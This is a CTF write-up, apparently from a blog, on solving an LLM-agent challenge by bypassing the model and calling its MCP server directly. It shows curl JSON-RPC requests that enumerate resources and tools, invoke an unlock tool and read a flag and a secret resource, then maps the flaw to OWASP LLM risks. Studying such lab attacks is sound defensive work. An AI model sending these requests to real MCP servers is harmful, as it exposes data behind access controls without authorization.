







---
title: "Abusing MCP Resource Enumeration for Secret Exposure"
date: 2026-07-06T00:00:00Z
tags: ["LLM", "agent", "CTF", "MCP"]
categories: ["security", "AI"]
draft: false
---

## Level 7: Master of Resources

The instructions on level 7 indicates that the interface of the model is down but calling the API is still possible and the goal is to help restore the connection by probing the MCP server resources. Since MCP is a protocol, you can call it without the LLM (client) to read the resources exposed to the model and so read the flag.xt file.

### The exploit and result: Unauthorized MCP Resource and Tool Enumeration

**Step 1. Trial MCP request connection via curl request**

I first got the cookie necessary to send MCP requests from the Network tab on the browser. I then proceeded to initiate a GET request to https://ctf.arkx.ninja/level/7/mcp. The APi response revealed that I was **missing an MCP session id** in the request I was sending. Luckily, the session ID is  shown in the API response asz shown below with jsonrpc arguments included:



**Step 2. Initialize the MCP server**

I added the session id to my request as shown below:

```yml
curl -i -s https://ctf.arkx.ninja/level/7/mcp \
-H "Content-Type: application/json" \
-H "Accept: application/json, text/event-stream" \
-H "Mcp-Session-Id: 144376bf890e43c6b466546f6cba5bef" \
-H "Cookie: idToken={}; sessionId={}" \
-d '{
    "jsonrpc": "2.0",
    "id": 1,
    "method": "initialize",
    "params": {
        "protocolVersion": "2025-06-18",
        "capabilities": {},
        "clientInfo": {
            "name": "curl-test",
            "version": "0.1"
        }
    }
}'
```

The connection to the MCP Server was initialized and acknoweldged. The connection request  was successfull as shown in the following API response:



**Step 3: List all the available resources**

The next step I tried to enumerate the list of all the resources made available to the MCP server. As per my research, I discovered that MCP resources are a list of read only files that are provided to the MCP server to rovide context to the agent. I tweaked the :

```yml
curl -i -s https://ctf.arkx.ninja/level/7/mcp \
-H "Content-Type: application/json" \
-H "Accept: application/json, text/event-stream" \
-H "Mcp-Session-Id: 144376bf890e43c6b466546f6cba5bef" \
-H "Cookie: idToken={}; sessionId={}" \
-d '{
    "jsonrpc": "2.0",
    "id": 2,
    "method": "resources/list",
    "params": {
        "protocolVersion": "2025-06-18",
        "capabilities": {},
        "clientInfo": {
            "name": "curl-test",
            "version": "0.1"
        }
    }
}'
```

The response of the request above shows that two resources are made available to the MCP server: a `get_flag` file and a `get_super_secret` file.

 

**Step 4: Enumarate the list of tools** 

Next, I decided to check which tools the MCP server had access to. From the output below, I deduced that the model only had access to the `unlock_flag` tool:



From the description of the `unlock_flag` tool shown in the screenshot above, I understand that I have to call the `unlock_flag` tool first to get read access to the flag resouce file. 

I therefore proceeded with the following curl request:

```yml
curl -i -s https://ctf.arkx.ninja/level/7/mcp \
-H "Content-Type: application/json" \
-H "Accept: application/json, text/event-stream" \
-H "Mcp-Session-Id: 144376bf890e43c6b466546f6cba5bef" \
-H "Cookie: idToken={}; sessionId={}" \
-d '{
    "jsonrpc": "2.0",
    "id": 4,
    "method": "tools/list",
    "params": {
        "name": "unlock_flag",
        "arguments": {}
    }
}'
```


The response of above indicates that I can now read the flag file.

**Step 5. Obtain the flag from reading the resource files**

I then made the request to read from the resource files using the curl requests which showed the flag was `flag-575ca3`:
```yml
 curl -i -s https://ctf.arkx.ninja/level/7/mcp \
  -H "Content-Type: application/json" \
  -H "Accept: application/json, text/event-stream" \
  -H "Mcp-Session-Id: 144376bf890e43c6b466546f6cba5bef" \
  -H "Cookie: idToken={}; sessionId={}" \
    -d '{
        "jsonrpc": "2.0",
        "id": 5,
        "method": "resources/read",
        "params": {
            "uri": "resource://flag"
        }
    }'
```


And out of curiosity also chacked what aws contained in the `super-secret` resource file using the following curl request but nothing meaningful came from it since it was a link to a youtube video:

```yml
 curl -i -s https://ctf.arkx.ninja/level/7/mcp \
  -H "Content-Type: application/json" \
  -H "Accept: application/json, text/event-stream" \
  -H "Mcp-Session-Id: 144376bf890e43c6b466546f6cba5bef" \
  -H "Cookie: idToken={}; sessionId={}" \
    -d '{
        "jsonrpc": "2.0",
        "id": 6,
        "method": "resources/read",
        "params": {
            "uri": "resource://super-secret"
        }
    }'
```


I proceeded to validate the flag I had obtained on the CTF platform:


**Root Cause of the vulnerability**

Unauthorized resource and tool enumeration vuln since anyone can see list of all resources by calling the `resources/list` and `tools/list` since there are no authorization checks. This is a problem in businesses who would architecture their MCP server this way since it would expose all the internal documents used by the server. The lesson was that MCP server tools and resources need to have the same access control that is enforced on API endpoints.

MCP server's expose protected resources that users could access directly, bypassing intended access controls by enumerating the list of tools and resources and discovering how to expose sensitive files from the response of the MCP requests.

**Severity of unauthorizad MCP server requests**

 MCP servers are designed to expose resources and tools to the end users through the model. However, if you include protected or sensitive resources in an MCP server, users can read them directly which might lead to data leaks and GDPR fines in Europe. Therefore authentication need to be followed by string acess control list of who can access what resources on the server.

 **Key lesson**: Never include protected resources in an MCP server - users can read them. MCP servers are designed for transparency and user access, so any resources exposed through them should be considered public.

### Standard LLM OWASP Top 10 Mapping

**Sensitive Information Disclosure (LLM02):**
The MCP server exposes resource enumeration (`resources/list`) and tool enumeration (`tools/list`) without authentication or authorization, allowing unauthenticated clients to discover the existence of sensitive resources like `flag` and `super-secret`. Once discovered, the unprotected `unlock_flag` tool and subsequent `resources/read` calls expose the actual secret data (`flag-575ca3`), bypassing all intended access controls and leaking confidential information.

**Excessive Agency (LLM06):**
The MCP client (curl request acting as an agent) was granted unrestricted capability to enumerate all available tools and resources on the server, then invoke any tool (`unlock_flag`) without requiring specific user intent, approval, or authorization. This excessive permission set enabled the agent to autonomously discover attack surfaces and escalate privileges by invoking protection mechanisms without proof of authorization.

**Tool Misuse & Exploitation (ASI02):**
The `unlock_flag` tool, designed to protect the flag resource through an authorization gate, was repurposed and exploited by calling it with an empty argument payload (`{}`). The tool lacked input validation and authorization checks, allowing an unauthenticated client to weaponize it against its intended design purpose - granting access to protected resources to any caller regardless of identity or privilege.

**Unrestricted Tool Use (ASI04):**
The MCP server imposed no input validation, authentication checks, or authorization enforcement before tool invocation. The `unlock_flag` tool accepted arbitrary (including empty) arguments without validating caller identity, enforcing capability-based access control, or implementing rate limiting, allowing unrestricted exploitation of the privilege escalation mechanism.

**Tool Access Control Failures (ASI05):**
All MCP operations (`resources/list`, `tools/list`, tool invocation, and `resources/read`) lacked per-request authorization enforcement. The server never validated that clients possess the required permissions before exposing enumeration data or executing sensitive operations, resulting in complete bypass of the intended multi-stage access control (discover → unlock → read).

---
